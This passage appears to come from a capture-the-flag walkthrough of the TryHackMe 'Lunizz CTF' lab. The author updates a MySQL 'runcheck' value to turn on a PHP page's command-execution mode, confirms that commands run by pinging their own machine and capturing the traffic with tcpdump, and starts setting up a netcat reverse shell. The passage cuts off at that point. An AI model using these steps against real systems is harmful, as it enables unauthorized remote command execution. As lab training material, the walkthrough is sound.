 The `run` has a `0` value record. What if I change it to `1`?

```
MySQL [runornot]> UPDATE runcheck SET run = 1;
Query OK, 1 row affected (0.218 sec)
Rows matched: 1  Changed: 1  Warnings: 0

MySQL [runornot]> SELECT run FROM runcheck;
+------+
| run  |
+------+
|    1 |
+------+
```

**Now when we check out the `/whatever/index.php`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Lunizz-CTF/images/a3.png)

**The `Command Executer Mode` changed to `1`. Let's test for command execution:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Lunizz-CTF/images/a4.png)

**We can execute commands! Let's `ping` ourself to make sure it's not a fake command execution:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Lunizz-CTF/images/a5.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Lunizz-CTF]
└─# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
00:12:27.974610 IP 10.10.60.160 > 10.18.61.134: ICMP echo request, id 3275, seq 1, length 64
00:12:27.974678 IP 10.18.61.134 > 10.10.60.160: ICMP echo reply, id 3275, seq 1, length 64
00:12:28.976203 IP 10.10.60.160 > 10.18.61.134: ICMP echo request, id 3275, seq 2, length 64
00:12:28.976245 IP 10.18.61.134 > 10.10.60.160: ICMP echo reply, id 3275, seq 2, length 64
00:12:29.977006 IP 10.10.60.160 > 10.18.61.134: ICMP echo request, id 3275, seq 3, length 64
00:12:29.977041 IP 10.18.61.134 > 10.10.60.160: ICMP echo reply, id 3275, seq 3, length 64
00:12:30.977705 IP 10.10.60.160 > 10.18.61.134: ICMP echo request, id 3275, seq 4, length 64
00:12:30.977720 IP 10.18.61.134 > 10.10.60.160: ICMP echo reply, id 3275, seq 4, length 64
^C
8 packets captured
8 packets received by filter
0 packets dropped by kernel
```

**Successfully received 4 ICMP reply!**

**To get a reverse shell, I'll:**

- Check `nc` is installed or not:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Lunizz-CTF/images/a6.png)

- Setup a `nc` listener:
